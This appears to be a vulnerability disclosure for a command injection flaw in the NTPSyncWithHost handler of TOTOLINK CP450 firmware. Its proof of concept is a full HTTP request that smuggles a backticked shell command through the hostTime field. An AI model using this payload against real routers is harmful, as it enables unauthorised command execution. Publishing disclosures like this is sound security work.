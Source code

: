 ## CP450 command injection

### Overview

* Vendor: TOTOLINK

* Product: CP450
* Version: TOTOLINK_C8B193C-1H_CP450_CP0017_8881A_SPI_8M64M_V4.1.0cu.747_B20191224_ALL.web

* Manufacturer's address：https://www.totolink.net/
* Firmware download address ：https://www.totolink.net/data/upload/20200414/2254ce90058da1a549566852c86031db.zip

### Vulnerability details

Totolink outdoor CPE CP450 V4.1.0cu.747_B20191224 were discovered to contain a command injection vulnerability in the NTPSyncWithHost function via the **hostTime** parameter. This vulnerability allows attackers to execute arbitrary commands via a crafted request.

![image-20240421163827190](./img/1.png)

#### PoC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.254
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: application/json, text/javascript, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 108
Origin: http://192.168.0.254
Connection: close
Referer: http://192.168.0.254/adm/ntp.asp
Cookie: SESSION_ID=2:1801026000:2

{
    "topicurl":"setting/NTPSyncWithHost",
    "hostTime":"1`ls>/web_cste/hack.txt`"
}
```


